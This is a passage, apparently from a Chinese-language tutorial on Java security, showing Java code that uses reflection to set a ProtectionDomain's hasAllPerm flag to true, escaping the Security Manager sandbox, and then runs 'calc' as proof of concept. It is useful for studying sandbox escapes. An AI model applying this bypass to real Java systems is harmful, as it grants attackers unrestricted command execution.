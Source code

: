 ```bash
                // 利用反射调用getProtectionDomain0方法获取ProtectionDomain
                Method getProtectionDomain = clz.getClass().getDeclaredMethod("getProtectionDomain0", null);
                getProtectionDomain.setAccessible(true);
                ProtectionDomain pd = (ProtectionDomain) getProtectionDomain.invoke(clz);
                // 将ProtectionDomain的hasAllPerm修改为true，使其拥有所有权限
                if (pd != null) {
                    Field field = pd.getClass().getDeclaredField("hasAllPerm");
                    field.setAccessible(true);
                    field.set(pd, true);
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        Runtime.getRuntime().exec("calc");
    }
}
```

看看效果：

![图片](assets/1709279808-51bd6f86783fbce1a66ec160e72b4ab3.png)
